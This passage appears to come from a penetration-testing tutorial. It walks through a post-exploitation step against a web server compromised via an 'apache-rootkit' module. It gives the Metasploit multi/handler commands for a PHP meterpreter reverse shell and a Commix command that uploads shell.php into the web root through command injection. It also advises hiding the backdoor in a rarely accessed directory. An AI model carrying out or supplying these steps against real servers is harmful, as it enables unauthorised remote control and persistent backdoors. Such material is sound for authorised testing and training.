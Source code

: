 1. We can now set up the listener with Metasploit  by running the following commands:

        msfconsole
        use multi/handler
        set payload php/meterpreter/reverse_tcp
        set LHOST <KALI-IP>
        set LPORT <PORT>
        run

1. The next step will involve uploading the PHP shell that we just generated to the web server, this can be done with Commix by running the following command:

        commix -u http://<SERVER-IP>/authg?c=id --file-write='/home/kali/Desktop/shell.php' --file-dest='/var/www/html/shell.php

1. In this case, we will be uploading the “shell.php” file to the root of the web server, it is recommended, however, to upload it to a directory that is not frequently accessed.

    If the “shell.php” file is uploaded successfully, you should receive a message similar to the one shown in the screenshot below.

    ![Commix PHP backdoor upload output](commix-php-backdoor-upload-output.png "Commix PHP backdoor upload output")

1. We can retrieve a meterpreter session on the target by navigating to the “shell.php” file on the web server by accessing the following URL with your browser:

        http://<SERVER-IP>/shell.php

    Accessing the through the browser should execute the PHP code and consequently provide you with a meterpreter session on your listener as shown in the following screenshot.

    ![Meterpreter session receiving connection from Commix PHP backdoor](meterpreter-session-receiving-connection-from-commix-php-backdoor.png "Meterpreter session receiving connection from Commix PHP backdoor")

    We have been able to successfully set up the apache-rootkit module and leverage the command injection functionality afforded by the module to execute arbitrary commands on the target system as well as upload a PHP backdoor that will provide you with a meterpreter session.